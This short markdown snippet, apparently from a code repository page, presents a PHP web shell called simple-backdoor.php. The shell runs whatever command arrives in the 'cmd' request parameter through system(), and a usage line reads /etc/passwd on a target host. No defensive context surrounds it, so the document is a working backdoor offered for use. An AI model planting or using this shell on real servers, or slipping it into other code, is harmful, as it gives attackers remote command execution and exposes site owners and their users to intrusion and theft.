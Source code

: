 ## PHP
simple-backdoor.php
usage : `http://target.com/simple-backdoor.php?cmd=cat+/etc/passwd`
```
<?php
if(isset($_REQUEST['cmd'])){
        echo "<pre>";
        $cmd = ($_REQUEST['cmd']);
        system($cmd);
        echo "</pre>";
        die;
}
?>
```

